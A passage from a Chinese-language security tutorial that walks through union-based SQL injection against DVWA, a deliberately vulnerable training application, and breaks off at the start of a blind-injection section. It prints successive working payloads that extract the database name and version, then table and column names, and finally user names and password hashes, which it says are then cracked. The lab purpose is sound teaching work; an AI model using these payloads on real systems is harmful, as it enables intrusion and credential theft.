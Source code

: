 ![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 171536-1684374204263-79.png)

说明order by在这里不再适用。



尝试下面的payload：

```sql
1' union select 1,2# 
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 172859-1684374204263-85.png)

利用联合查询来获取信息。



#### 获取数据库和版本

```sql
-1' union select database(),version() # 
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 172926-1684374204263-84.png)

#### 获取数据表名

```sql
1' union select (select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),2#
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 172951-1684374204263-86.png)

#### 获取字段名

```sql
-1' union select (select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'),2# 
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 173023-1684374204263-88.png)

#### 获取字段内的信息

```sql
-1' union select group_concat(user_id,first_name,last_name),group_concat(password) from users # 
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 173044-1684374204263-87.png)

通过常规的爆破手段来获取账户和密码，最后拿到密码解密即可。

## SQL盲注通关

### 简介
